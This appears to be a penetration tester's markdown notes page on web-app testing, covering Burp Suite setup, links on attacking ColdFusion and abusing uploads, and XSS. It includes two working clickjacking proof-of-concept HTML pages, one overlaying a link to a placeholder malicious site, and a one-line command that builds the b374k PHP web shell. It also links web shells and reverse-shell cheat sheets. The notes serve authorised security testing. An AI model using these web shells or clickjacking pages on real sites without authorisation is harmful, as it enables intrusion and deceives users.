 # Webapp Pentesting

Burp "Quick Start" guide
--------
I did a video demo of how to get up and going with Burp quickly in [episode #230](https://7ms.us/7ms-230-pentesting-owasp-juice-shop-part-1/) of the 7 Minute Security podcast.  It includes things like:

* Getting Burp installed
* Installing the SSL cert
* Installing FoxyProxy and proxying traffic through Burp
* Setting up a quick shell script to start Burp from the command line:
  * `java -Xmx2g -jar burpsuite.jar`

* Installing helpful extensions from the BApp store :

 * CO2
 * CSRF Scanner
 * JS Beautifier
 * Retire.js
 * SQLiPy
 * Wsdler

Clickjacking sample
------
### Clickjacking

Here's a good page about [clickjacking](https://www.owasp.org/index.php/Testing_for_Clickjacking_(OTG-CLIENT-009)), and if you need to whip together a quick PoC for a client, I find this one works pretty well:

---

````
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://www.target.site" width="500" height="500"></iframe>
   </body>
</html>
````

---

As does this one:

````
<html>
<title>This is your totally safe corporate site...OR IS IT?!?!?!?!?!?</title>
  <head>
    <style>
      body {
        position: relative;
        margin: 0;
      }

      iframe, div, a {
        border: none;
        position: absolute;
        width: 100%;
        height: 100%;
      }

      div {
        z-index: 100;
      }

      a {
        display: block;
      }
    </style>
  </head>
  <body>
    <iframe src="https://name-of-site-without-sameorigin-set-correctly.com">
    </iframe>
    <div>
      <a href=" http://www.some-really-really-bad-site.com "></a>
    </div>
  </body>
</html>
````

ColdFusion
-----
Sites that help attacking CF:

https://jumpespjump.blogspot.com/2014/03/attacking-adobe-coldfusion.html
http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/
https://www.exploit-db.com/exploits/14641/ (contains path that CFIDE admin might live in)
https://github.com/averagesecurityguy/scripts/ - contains some scripts for attacking CF
https://dl.packetstormsecurity.net/papers/attack/topseven-coldfusion.pdf - top 5 CF vulns
https://www.cvedetails.com/vulnerability-list/vendor_id-53/product_id-8739/version_id-39015/Adobe-Coldfusion-7.0.html - CF 7 vulns
http://www.carnal0wnage.com/papers/LARES-ColdFusion.pdf - great paper from Chris Gates on attacking CF



Payloads
--------
* [PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is "a list of useful payloads and bypass for Web Application Security and Pentest/CTF."

* [XSS-Problems](https://github.com/karelorigin/XSS-Problems/tree/master) will "help you solve problems you might encounter while trying to XSS a target."

Web Shells
--------
### General guidance/usage
This [blog](https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/) gives some great guidance and a checklist for using/abusing Webshells.

The [HighonCoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/) cheat sheet is also awesome.

#### Webshells for download

### B374K
One of my fav Web shells is [b374k](https://github.com/b374k/b374k), and as a quick ref, once you clone it from github, you can get a shell compiled pretty quick with:

`php -f index.php -- -o myShell.php -p MyPasswordGoesHere -s -b -z gzcompress -c 9`

### cmdsql
This nice [Webshell](https://github.com/NetSPI/cmdsql) from NetSPI is handy for the following tasks (according to the Web site)

* Execute operating system commands
* Parse web.config files for connection strings (based on root directory)
* Execute MSSQL queries using connection strings recovered from web.config files

Note: the accompanying [blog](https://blog.netspi.com/adding-powershell-to-web-shells-to-get-database-access/) reminds us that this only works on IIS sites that allow execution of .aspx files.

Upload functionality (abusing)
-------
[This site](https://www.aptive.co.uk/blog/unrestricted-file-upload-testing/) has some great tips for abusing file upload functionality.

XSS
------
Nice site showing the [risks of XSS](https://www.dionach.com/blog/the-real-impact-of-cross-site-scripting).
